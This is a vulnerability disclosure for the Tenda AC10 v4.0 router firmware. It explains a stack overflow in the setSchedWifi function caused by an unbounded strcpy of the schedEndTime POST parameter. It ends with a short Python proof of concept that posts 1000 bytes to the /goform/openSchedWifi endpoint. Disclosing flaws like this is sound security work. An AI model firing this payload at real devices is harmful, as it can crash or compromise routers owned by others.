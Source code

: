 ## Overview

- Manufacturer's website information：https://www.tenda.com.cn/

- Firmware download website: https://www.tenda.com.cn/download/detail-3506.html

## Affected version

AC10 v4.0 V16.03.10.13

## Vulnerability details

The Tenda AC10 v4.0 V16.03.10.13 firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `v8` variable receives the `schedEndTime` parameter from a POST request and is later assigned to the `ptr` variable, which is fixed at 25 bytes. However, since the user can control the input of `schedEndTime`, the statement `strcpy((char *)ptr + 10, v20);` can cause a buffer overflow. The user-provided `schedEndTime` can exceed the capacity of the `ptr` array, triggering this security vulnerability.

![image-20240309153227226](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309153227226.png)

![image-20240309153341162](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309153341162.png)

The user-provided `schedEndTime` can trigger this security vulnerability.

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/openSchedWifi"
payload = b"a"*1000

data = {"schedWifiEnable":0,"schedEndTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240309153429195](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309153429195.png)